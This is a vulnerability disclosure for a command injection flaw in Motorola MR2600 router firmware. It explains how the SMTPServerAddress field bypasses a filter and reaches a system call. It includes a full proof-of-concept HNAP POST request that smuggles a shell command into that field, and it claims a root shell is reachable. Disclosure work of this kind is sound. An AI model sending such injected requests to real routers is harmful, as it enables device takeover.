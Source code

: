 # Motorala MR2600 MR2600-v1.0.14.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.motorola.com/
- Firmware download address ： https://www.motorolacable.com/support/MR2600/software/

## 1. Affected version

![image-20220522091248943](img/image-20220522091248943.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220522103629360](img/image-20220522103629360.png)

By SaveSysEmailParams/SMTPServerAddress parameters for content delivery to v8

![image-20220522103717204](img/image-20220522103717204.png)

Check_command_inject_ch function after the filter command injection, we can use '| |' symbol to bypass the interrupt the first command, you can execute the second command

Then use the nvram_SAFE_set function to set the value of SysLogMail_SMTPServerAddress to V8

![image-20220522103944484](img/image-20220522103944484.png)

In the rc file, the program uses the nvram_safe_get function to get the value of the SysLogMail_SMTPServerAddress parameter and passes it to V8. It then uses the sprintf function to format the v8 content into V33 and executes the v33 content through the TWsystem function. Command injection vulnerability exists

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware MR2600-v1.0.14.img
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SysLogMail_SMTPServer xmlns="http://purenetworks.com/HNAP1/">
	<SMTPServerAddress> % || ls > /tmp/456 || echo 1</SMTPServerAddress>
</SysLogMail_SMTPServer>
</soap:Body>
</soap:Envelope>
```

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220522091701627](img/image-20220522091701627.png)